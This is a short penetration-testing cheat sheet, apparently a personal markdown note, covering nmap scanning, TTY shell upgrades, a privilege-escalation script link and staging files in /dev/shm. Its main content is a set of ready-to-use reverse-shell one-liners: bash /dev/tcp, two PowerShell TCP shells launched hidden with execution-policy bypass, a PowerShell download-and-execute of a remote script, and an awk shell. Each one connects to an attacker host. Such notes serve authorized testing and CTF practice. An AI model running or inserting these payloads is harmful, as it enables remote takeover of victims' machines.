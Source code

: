 #### DATA COLLECTION ####

```nmap -sV -sC -oA <ip> <outputfile>```

Dirb any available port 80 address

### TTY SHELL

```python -c 'import pty; pty.spawn("/bin/sh")'```

https://netsec.ws/?p=337

## IPPSEC explains terminal upgrades tty

CTRL + Z (Background process)
stty raw -echo (local term don't process tabs, send through to terminal)
fg (foreground shell)


https://youtu.be/CYeVUmOar3I?t=789

### PRIVESC 

https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/linpeas.sh

### STORE FILES IN MEM

```/dev/shm```

Upload any files to Ram disk that will clear on reboot.

### REVERSE SHELL ###

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://github.com/pentestmonkey/php-reverse-shell

### BASH RS

bash -c 'bash -i >& /dev/tcp/<your_ip>/<port> 0>&1'

### Powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```
### Awk

```powershell
awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

### SHELL COMMANDS ###

```SHELL=/bin/bash script -q /dev/null```

Explanation for /dev/null
https://askubuntu.com/questions/306047/what-does-the-script-dev-null-do
